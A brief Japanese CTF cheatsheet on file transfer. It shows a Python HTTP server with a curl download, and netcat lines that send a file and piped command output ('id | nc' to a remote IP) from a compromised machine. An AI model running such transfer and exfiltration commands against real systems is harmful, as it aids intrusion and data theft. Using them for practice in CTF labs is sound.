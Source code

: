 ```yaml
---
layout: post
title: ファイル転送
published : true
tags: CTF Common cheatsheet linux "file trancefer"
---
```

## linux
### curl
#### 送信側(待受)
```sh
python3 -m http.server 8888
```
#### 受信側
```sh
curl 10.10.14.14:8888/src.file -o dst.file
```
### nc
#### 受信側(待受)
```sh
nc -lvnp 9999 > some-file-name
```
#### 送信側
- ファイルの場合

```sh
nc 10.11.42.116 9999 < ff.tar.gz
```

- コマンド結果の場合
```sh
id | nc 10.11.42.116 9999
```